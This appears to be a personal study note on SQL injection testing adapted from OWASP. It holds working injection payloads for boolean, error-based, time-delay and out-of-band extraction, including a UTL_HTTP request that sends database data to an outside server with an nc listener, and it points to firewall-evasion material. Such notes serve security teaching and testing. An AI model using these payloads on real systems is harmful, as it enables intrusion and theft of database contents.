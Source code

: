 # SQL Injection
---
## Navigation
- **[[#Detection Techniques]]**
- **[[#Boolean Exploitation Technique]]**
- **[[#Error Based Exploitation Technique]]**
- **[[#Out of Band Exploitation Technique]]**
- **[[#Time Delay Exploitation Technique]]**
- **[[#Evasion techniques]]**

---
#### SQL Injection attacks can be divided into the following three classes:
- **Inband:** data is extracted using the same channel that is used to inject the SQL code.
- **Out-of-band:** data is retrieved using a different channel (e.g., an email).
- **Inferential or Blind:** there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.


#### The techniques to exploit SQL injection flaws there are five commons techniques
-   **Union Operator:** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-   **Boolean:** use Boolean condition(s) to verify whether certain conditions are true or false.
-   **Error based:** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-   **Out-of-band:** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-   **Time delay:** use database commands (e.g. sleep) to delay answers in conditional queries. It is useful when attacker doesn’t have some kind of answer (result, output, or error) from the application.

## Detection Techniques
-   Authentication forms
-   Search engines:
-   E-Commerce sites
-   The tester has to make a list of all input fields whose values could be used in crafting a SQL query, **including the hidden fields of POST requests** and then test them separately.

## Boolean Exploitation Technique
The Boolean exploitation technique is very useful when the tester finds a [**Blind SQL Injection**](https://owasp.org/www-community/attacks/Blind_SQL_Injection) situation.

We suppose that the query executed on the server is:
```text
SELECT field1, field2, field3 FROM Users WHERE Id='$Id'
```

The tests that we will execute will allow us to obtain the value of the username field, extracting such value character by character. This is possible through the use of some standard functions, present in practically every database.
-   **SUBSTRING (text, start, length):** returns a substring starting from the position “start” of text and of length “length”. If “start” is greater than the length of text, the function returns a null value.
- **ASCII (char):** it gives back ASCII value of the input character. A null value is returned if char is 0.
-   **LENGTH (text):** it gives back the number of characters in the input text.


```text
1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1
```

```text
1' AND LENGTH(username)=N AND '1' = '1
```
## Error Based Exploitation Technique
The Error based technique consists in **forcing the database to perform some operation in which the result will be an error**. The point here is to try to extract some data from the database and show it in the error message.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be (e.g. Oracle 10g):
```text
http://www.example.com/product.php?id=10||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_INADDR.GET_HOST_NAME`. This Oracle function will try to return the hostname of the parameter passed to it, which is other query, the name of the user. When the database looks for a hostname with the user database name, it will fail and return an error message like:
```text
ORA-292257: host SCOTT unknown
```
## Out of Band Exploitation Technique
The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server.
Consider the following SQL query:
```text
SELECT * FROM products WHERE id_product=$id_product
```
Consider also the request to a script who executes the query above:
```text
http://www.example.com/product.php?id=10
```
The malicious request would be:
```text
http://www.example.com/product.php?id=10||UTL_HTTP.request(‘server.com:80’||(SELECT user FROM DUAL)--
```
In this example, the tester is concatenating the value 10 with the result of the function `UTL_HTTP.request`. This Oracle function will try to connect to `testerserver` and make a HTTP GET request containing the return from the query `SELECT user FROM DUAL`.
```bash
$nc -nvlp 80

GET /SCOTT HTTP/1.1
Host: testerserver.com
Connection: close
```
## Time Delay Exploitation Technique
This technique consists in sending an injected query and in case the conditional is true, the tester can monitor the time taken to for the server to respond.
The malicious request would be (e.g.**MySql 5.x**):
```text
http://www.example.com/product.php?id=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
```
## Evasion techniques
> **WAF: **https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF

> **More techniques at the end of the page:** https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection

